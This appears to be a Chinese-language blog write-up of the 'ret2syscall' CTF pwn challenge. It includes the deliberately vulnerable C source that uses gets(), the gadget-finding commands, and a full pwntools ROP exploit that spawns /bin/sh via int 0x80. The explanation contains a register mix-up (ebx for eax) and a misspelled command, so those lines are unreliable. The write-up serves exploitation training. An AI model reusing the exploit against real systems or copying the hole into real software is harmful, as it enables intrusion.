 ```yaml
---
layout:     post
title:      ret2syscall
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida





## 分析过程

这里需要注意一点，ret2syscall是静态编译的

```
file ret2syscall

ret2syscall: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked
```



只开了NX堆栈不可执行保护

```
checksec ret2syscall
[*] '/home/hello/Desktop/test/ret2syscall/ret2syscall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```





## 解题思路

思路

ida打开程序，发现没有system函数，因为是静态编译又不能调用libc中的函数，考虑一下int 0x80[系统调用](https://syscalls.kernelgrok.com)

```python
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
```

payload中，ebx=0xb对应系统调用表中的sys_execve，edx、ecx为0即可，ebx存/bin/sh的字符串地址

/bin/sh字符串地址

```
strings -a -tx ret2syscall | grep '/bin/sh' + 0x8048000

0x76408 + 0x8048000 = 0x80be408

```

int 0x80地址

```
ROPgadget --binary ret2syscall --only 'int'

或者

ROPgadge –binary ret2syscall –opcode cd80c3
```







exp.py

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```



ret2syscall.c

```c
#include <stdio.h>
#include <stdlib.h>

char *shell = "/bin/sh";

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("This time, no system() and NO SHELLCODE!!!\n");
    printf("What do you plan to do?\n");
    gets(buf);

    return 0;
}
```



## 总结



